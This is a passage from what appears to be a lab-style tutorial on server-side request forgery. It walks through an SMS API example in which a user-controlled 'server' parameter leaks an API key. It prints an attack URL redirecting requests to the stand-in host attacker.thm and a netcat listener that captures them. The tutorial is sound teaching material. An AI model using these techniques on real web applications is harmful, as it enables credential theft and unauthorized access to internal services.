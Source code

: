 ### Server-Side Request Forgery

This type of vulnerability occurs when an attacker can coerce a web application into sending requests on their behalf to arbitrary destinations while having control of the contents of the request itself. SSRF vulnerabilities often arise from implementations where our web application needs to use third-party services.

Think, for example, of a web application that uses an external API to send SMS notifications to its clients. For each email, the website needs to make a web request to the SMS provider's server to send the content of the message to be sent. Since the SMS provider charges per message, they require you to add a secret key, which they pre-assign to you, to each request you make to their API. The API key serves as an authentication token and allows the provider to know to whom to bill each message. The application would work like this:

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/26f87c9b-862d-4aaf-aa76-b6ab3c25f620)

By looking at the diagram above, it is easy to see where the vulnerability lies. The application exposes the `server` parameter to the users, which defines the server name of the SMS service provider. If the attacker wanted, they could simply change the value of the `server` to point to a machine they control, and your web application would happily forward the SMS request to the attacker instead of the SMS provider. As part of the forwarded message, the attacker would obtain the API key, allowing them to use the SMS service to send messages at your expense. To achieve this, the attacker would only need to make the following request to your website:

`https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

This would make the vulnerable web application make a request to:

`https://attacker.thm/api/send?msg=ABC`

You could then just capture the contents of the request using Netcat:

```
user@attackbox$ nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
```

This is a really basic case of SSRF. If this doesn't look that scary, SSRF can actually be used to do much more. In general, depending on the specifics of each scenario, SSRF can be used for:

- Enumerate internal networks, including IP addresses and ports.

- Abuse trust relationships between servers and gain access to otherwise restricted services.

- Interact with some non-HTTP services to get remote code execution (RCE).

- Let's quickly look at how we can use SSRF to abuse some trust relationships.

### Practical Example

Navigate to `http://10.10.166.40:8087/`, where you'll find a simple web application. After exploring a bit, you should see an admin area, which will be our main objective. Follow the instructions on the following questions to gain access to the website's restricted area!
